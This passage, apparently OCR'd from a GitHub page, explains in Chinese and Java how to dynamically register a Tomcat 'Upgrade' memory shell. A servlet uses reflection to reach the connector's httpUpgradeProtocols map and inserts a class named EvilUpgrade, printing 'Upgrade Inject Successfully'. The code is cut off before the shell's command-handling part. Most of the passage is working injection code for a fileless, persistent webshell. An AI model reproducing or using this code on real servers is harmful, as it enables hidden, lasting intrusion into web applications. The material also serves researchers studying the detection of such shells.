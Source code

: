 ## Achievement

### Idea

​	动态注册`Upgrade`内存马的具体思路如下:

- 获取`httpUpgradeProtocols`属性；
- 创建一个恶意的`upgradeProtocol`；
- 将恶意的`upgradeProtocol`插入到`httpUpgradeProtocols`中。

### Dynamic Registration

#### Servlet

```java
package servlet;

import org.apache.catalina.connector.Connector;
import org.apache.coyote.*;
import org.apache.coyote.http11.Http11NioProtocol;
import org.apache.coyote.http11.upgrade.InternalHttpUpgradeHandler;
import org.apache.tomcat.util.net.SocketWrapperBase;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.nio.charset.StandardCharsets;
import java.util.HashMap;
import java.util.Scanner;

@WebServlet(name = "UpgradeMemoryShellServlet", value = "/UpgradeMemoryShellServlet")
public class UpgradeMemoryShellServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        super.doGet(request, response);
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) {
        try {
            Object request1 = getField(request, "request");
            Connector connector = (Connector) getField(request1, "connector");
            Http11NioProtocol protocolHandler = (Http11NioProtocol) getField(connector, "protocolHandler");
            HashMap httpUpgradeProtocols = (HashMap) getField(protocolHandler, "httpUpgradeProtocols");
            httpUpgradeProtocols.put("H3rmesk1t", new EvilUpgrade());
            response.getWriter().println("Upgrade Inject Successfully...");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    class EvilUpgrade implements UpgradeProtocol {
        @Override
        public String getHttpUpgradeName(boolean isSecure) {
            return null;
        }
```